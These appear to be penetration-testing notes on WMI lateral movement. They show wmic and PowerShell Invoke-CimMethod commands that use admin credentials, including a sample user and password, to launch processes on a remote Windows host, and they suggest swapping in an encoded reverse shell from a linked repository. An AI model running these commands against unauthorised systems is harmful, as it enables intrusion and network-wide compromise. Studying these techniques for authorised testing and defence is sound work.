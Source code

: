 
### **WMI (Windows Management Instrumentation)**  
**Use Cases**: Remote code execution, lateral movement, data collection.  
**Protocol**: DCOM (TCP ports 135, 49152-65535) or WinRM (HTTP/5985, HTTPS/5986).  
we need the credentials of a member of the _Administrators_ local group, which can also be a domain user.
From PowerShell with `valid member of the Local Administrator group` for the target machines.

 ``` powershell
 wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "calc"
```
**Key Commands**:  
- **Legacy WMIC (Deprecated but still useful)**:  
  ```bash
  wmic /node:<IP> /user:<DOMAIN\USER> /password:<PASSWORD> process call create "cmd.exe /c calc.exe"
  ```  
- **/node:** Specifies the target machine’s IP address or hostname.
- **/user:** The username that has the required privileges on the target machine.
- **/password:** The corresponding password for authentication.
- **process call create:** Instructs WMIC to create (execute) a new process on the target.
- **"<COMMAND>":** The command or application to be executed remotely (e.g., `"calc"` for the calculator).
Example:

``` powershell
 wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "calc"
```

- A `ReturnValue` of "0", meaning that the process has been created successfully.
- **PowerShell (Modern Approach)**:  
Steps:
1. Create a `PSCredential` Object.
2. Prepare a` CIM` Session: Define session options to use `DCOM` -> Create a new `CIM` session to the target < IP >.
3. Use `Invoke-CimMethod` to run the command on the target machine.

  ```powershell
  # Create PSCredential Object
  $cred = New-Object System.Management.Automation.PSCredential ('<USER>', (ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force))

  # Create CIM Session (DCOM)
  $opt = New-CimSessionOption -Protocol DCOM
  $session = New-CimSession -ComputerName <IP> -Credential $cred -SessionOption $opt

  # Execute Command
  $Command = 'calc.exe'
  Invoke-CimMethod -CimSession $session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine=$Command}
  ```  

**Key Considerations**:  
- Requires **local admin** privileges on the target.  
- Processes spawn in **Session 0** (non-interactive). Use `-RunAs` or migrate to user sessions for GUI access.  
- UAC bypassed for **domain admins** on domain-joined machines.  
#### We can replace `$Command` with Encoded shell from [PowerShell_RCE](https://github.com/MGamalCYSEC/ReverseShellCrafter/tree/main/PowerShell)
Encoded shell


